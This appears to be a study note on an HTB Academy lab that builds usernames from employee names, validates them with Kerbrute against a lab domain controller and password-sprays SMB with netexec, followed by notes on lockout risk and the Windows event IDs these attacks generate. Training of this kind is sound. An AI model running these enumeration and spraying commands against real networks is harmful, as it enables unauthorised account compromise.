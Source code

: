 ### HTB Academy Example Attack Chain

#### Step 1: OSINT-Based Username Creation
```bash
# Discovered employees:
# - John Marston (IT Director)
# - Carol Johnson (Financial Controller)  
# - Jennifer Stapleton (Logistics Manager)

# Create targeted username list
cat > inlanefreight_users.txt << EOF
jmarston
john.marston
marston.john
cjohnson
carol.johnson
johnson.carol
jstapleton
jennifer.stapleton
stapleton.jennifer
EOF
```

#### Step 2: Username Validation
```bash
# Validate usernames with Kerbrute
./kerbrute userenum --dc 10.129.201.57 --domain inlanefreight.local inlanefreight_users.txt -v

# Results should show valid accounts
```

#### Step 3: Password Attack
```bash
# Password spray with common patterns
netexec smb 10.129.201.57 -u valid_users.txt -p 'Password123!' --continue-on-success
netexec smb 10.129.201.57 -u valid_users.txt -p 'Welcome2024!' --continue-on-success
```

### Password Attack Considerations

#### Account Lockout Risks
- **Default Windows domains** often have NO account lockout policy
- **Corporate environments** may have 3-5 failed attempt lockouts
- **Always check lockout policy first** if possible
- **Use `--safe` flag in Kerbrute** to detect lockouts

#### Event Log Generation
```bash
# Events generated by password attacks:
# Event ID 4625: An account failed to log on (traditional attacks)
# Event ID 4768: Kerberos TGT request (Kerbrute enumeration)
# Event ID 4771: Kerberos pre-authentication failed (Kerbrute password attacks)
```
